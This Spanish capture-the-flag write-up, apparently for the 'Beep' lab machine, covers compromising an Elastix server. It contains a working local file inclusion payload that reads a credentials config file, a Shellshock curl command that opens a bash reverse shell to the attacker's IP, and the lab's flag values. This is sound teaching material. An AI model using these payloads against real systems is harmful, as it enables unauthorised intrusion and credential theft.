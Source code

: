 
![[ 20250719142538.png]](beep-images/20250719142538.png)

# NMAP

primero realizamos un escaneo de nmap. pero en este caso a diferencia de mis otros writeups vamos a cambiar el método

normalmente realizamos un primer escaneo básico para encontrar los puertos abiertos y después lanzamos un escaneo son scripts básicos de nmap para encontrar servicios y versiones. Esto lo hacemos para que el escaneo básico sea rápido y posteriormente conseguimos un archivo al que llamamos targeted donde tenemos la informacion bien agrupada y fácil de leer.

En este caso debido a que la cantidad de puertos es enorme vamos a realizar ambos escaneos a la vez, es cierto que tardara mas en darnos el resultado pero con esto ganamos el esperar tan solo una vez y no tener que estar en dos escaneos esperando demasiado tiempo. de todas formas podeis realizar el escaneo como vosotros queráis no es estrictamente necesario imitar esta técnica.

```bash
nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn 10.129.183.206 -sC -sV -oN targeted
```

![[ 20250719135701.png]](beep-images/20250719135701.png)
![[ 20250719135718.png]](beep-images/20250719135718.png)

# Puerto 80

>(Al principio puede dar fallo la pagina web, recomendación: poner en la URL "about:config" y en la barrita de búsqueda "security.tls.version.min" )

![[ 20250719142158.png]](beep-images/20250719142158.png)

>con estos cambios no debería haber problema

como siempre que una maquina tiene un puerto 80 con http / https abiertos empezamos por aqui 

![[ 20250719135953.png]](beep-images/20250719135953.png)

vemos esta pagina web de elastix

buscando un poco en exploitDB y varias paginas de google conseguimos encontrar esta vulnerabilidad "Elastix 2.2.0 - 'graph.php' Local File Inclusion" 

es un LFI que segun exploitDB el vector de ataque seria:

```pl
#LFI Exploit: /vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action
```

probamos a inyectar esto en la pagina web 


![[ 20250719140246.png]](beep-images/20250719140246.png)

![[ 20250719140400.png]](beep-images/20250719140400.png)

podemos ver líneas interesantes con usuarios y contraseñas


en el puerto 80 si que conseguimos acceso pero no nos sirve de mucho pero en el puerto 10000 no conseguimos acceso aunque si que vemos por URL lo siguiente

https://10.129.183.206:10000/session_login.cgi

un .cgi por el que podriamos tratar de realizar un ataque shellsock 

# Shellshock

en nuestra maquina atacante abrimos un puerto de escucha con nc

```bash
nc -nlvp 4444
```

![[ 20250719141259.png]](beep-images/20250719141259.png)

y mientras estamos en escucha lanzamos el ataque shellshock 

```bash
curl --tlsv1.0 --tls-max 1.0 -k -A "() { :; }; /bin/bash -i >& /dev/tcp/10.10.14.48/4444 0>&1" https://10.129.183.206:10000/session_login.cgi &>/dev/null
```



tenemos shell como root 

![[ 20250719141324.png]](beep-images/20250719141324.png)

# Tratamiento de Shell

como siempre vamos a tratar la shell para trabajar comodos

```bash
which python
```

vemos que python existe ya que esta en el directorio /usr/bin/pyton

asi que utilizamos el comando

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

despues suspendemos la shell con Ctrl +Z 

utilizamos 
```bash
stty raw -echo; fg
```

y ponemos 
```bash
export TERM=xterm
```

# Flags

una vez tenemos la shell practica vamos a por las flags

## user

![[ 20250719141718.png]](beep-images/20250719141718.png)

user :  f39e9e4509649148e06e50b0e2a1a5cd

## root

![[ 20250719141808.png]](beep-images/20250719141808.png)

root : 06673369bab439c578238b14b27fbc96

